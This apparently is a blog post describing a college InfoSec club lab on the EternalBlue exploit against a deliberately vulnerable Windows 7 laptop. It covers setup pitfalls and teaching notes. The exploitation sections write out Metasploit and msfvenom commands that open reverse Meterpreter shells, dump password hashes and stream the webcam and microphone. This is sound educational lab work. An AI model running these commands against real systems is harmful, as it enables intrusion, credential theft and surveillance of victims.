 ```yaml
---
title: 🔐 BC InfoSec — Eternal Blue Demo
pubDate: "2025-06-08"
description: "Eternal Blue Demo"
category: general
image: "/images/eternalblue/cover.png"
alt: "Funky image of a cat"
tags: 
    - testing
---
```


### Preface

In April of 2025 I conducted a lab for members of the InfoSec Club at Bellevue College to attack a real laptop running an outdated and vulnerable version of Windows 7, specifically targeting the exploit EternalBlue.

Here are the behind the scenes details as to how I carried out the lab and the pitfalls I fell in along the way.

---

{{< Image src="/images/eternalblue/laptop.png" alt="The laptop that I eventually ended up using." width="600" height="400" >}}

The laptop that I eventually ended up using.

### Why Windows 7?

I chose Windows 7 because the EternalBlue exploit is easy to execute on real hardware and the vulnerable components are still accessible online. It’s also a memorable exploit from TryHackMe, and it's tied to the infamous WannaCry ransomware, making it perfect for showing students real-world implications.

{{< Image src="/images/eternalblue/iso.png" alt="One of the Windows 7 ISOs I found." width="600" height="400" >}}

One of the Windows 7 ISOs I found.

## USB 3.0 Installation Issues and Workarounds

My first attempt was on a Sony VAIO laptop with only USB 3.0 ports. Unfortunately, genuine Windows 7 SP1 ISOs don’t include USB 3.0 drivers, so installation couldn’t proceed. I could’ve burned the ISO to a CD-ROM, but instead I switched to a ThinkPad with USB 2.0 ports.

While digging around archive.org, I came across a Japanese ISO and a modified 32-bit version that supported USB 3.0, but EternalBlue is more stable on 64-bit versions, so I avoided those.

## Finding Safe Installation Media

I sourced my ISOs from [massgrave.dev](https://massgrave.dev/), which appeared to provide clean Windows 7 images. While I didn’t rigorously verify them, the lack of bundled activation scripts or extra drivers lent legitimacy. These weren't used for sensitive data, so the risk was acceptable for a contained lab setup.

{{< Image src="/images/eternalblue/motd.png" alt="MOTD of the Kali VM" width="600" height="400" >}}

MOTD of the Kali VM

## Kali Linux Setup for Students

I spun up one Kali VM on my Proxmox node with a limited "student" account. I restricted `sudo` access to just `nmap` and `metasploit` commands and added a custom ASCII art login banner by editing `/etc/motd`. I relied on students following the rules of engagement, trusting they wouldn't attack the Proxmox node or each other.

{{< Image src="/images/eternalblue/desktop.png" alt="Desktop of the vulnerable Windows 7 SP1 laptop." width="600" height="400" >}}

Desktop of the vulnerable Windows 7 SP1 laptop.

## Making Windows 7 Vulnerable

To ensure the exploit worked, I:

- Disabled Windows Firewall, Updates, and Defender.
- Created a persona named "Bobby Tables" with files, themes, and desktop widgets to make the machine look lived-in.

<!-- ![Image taken using meterpreter from the vulnerable laptop.](image%204.png) -->

{{< Image src="/images/eternalblue/meterpreterpic.png" alt="Image taken using meterpreter from the vulnerable laptop." width="600" height="400" >}}

Image taken using meterpreter from the vulnerable laptop.

## Exploiting with Metasploit and Meterpreter

The demo sequence:

```bash
nmap --top-ports 50 10.10.10.50
nmap -p 445 --open --script=smb-os-discovery 10.10.10.50
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.50
run
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.10.50
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.75
exploit
```

Once inside Meterpreter:

```bash
sysinfo
ipconfig
hashdump
ps
migrate [PID]
```

Fun commands:

- `webcam_stream`, `screenshare`, `record_mic`
- TTS: `execute -f powershell.exe -a "Add-Type...Speak('You have been hacked')"`
- Fake alerts: `execute -f mshta.exe -a "vbscript:msgbox(...)"`
- Open websites: `execute -f cmd.exe -a "/c start https://google.com"`

### Notes I prepared for the meeting:

[Notes for EternalBlue Demo](https://www.notion.so/Notes-for-EternalBlue-Demo-2071a2360ee380d3b52dcffbc877d5f3?pvs=21)

## Reverse Shell Access for Students

I used `msfvenom` to generate payloads with unique ports:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.75 LPORT=XXXX -f exe -o studentXXXX.exe
```

Students opened listeners using:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT XXXX
exploit -j
```

On the host, I executed the EXE manually. Once in students had to use `migrate PID` into the `explorer.exe` process to interact with the desktop environment.

## Travel Router Networking

I wired the Kali box and Windows 7 laptop to a travel router, which repeated school Wi-Fi and provided a private LAN. I used DHCP reservations to assign fixed IPs for the Kali VM and Windows machine, keeping command prep simple and avoiding IP conflicts.

## Teaching Aids

I created a slide deck that explained EternalBlue, the history of WannaCry, and basic steps for identifying and exploiting the vulnerability. I emphasized the dangers of RCE bugs and kept demo commands prepped for copy-pasting.

## What I’d Improve Next Time

- **Prep payloads**: Pre-generate `.exe` backdoors to save time.
- **Tighter environment control**: A student got RDP access and bypassed the setup.
- **More coverage**: I wanted to demo hash stealing and password cracking but ran into issues with `migrate` and process permissions.
- **EternalBlue quirk**: It works once per boot — if you mess up the first attempt, you'll need a reboot.

---

### Slides:

[EternalBlue Demo InfoSecClub.pdf](/public/files/EternalBlue_Demo_InfoSecClub.pdf)

### Recording:

[https://www.youtube.com/watch?v=9wS6HYpg0S0](https://www.youtube.com/watch?v=9wS6HYpg0S0)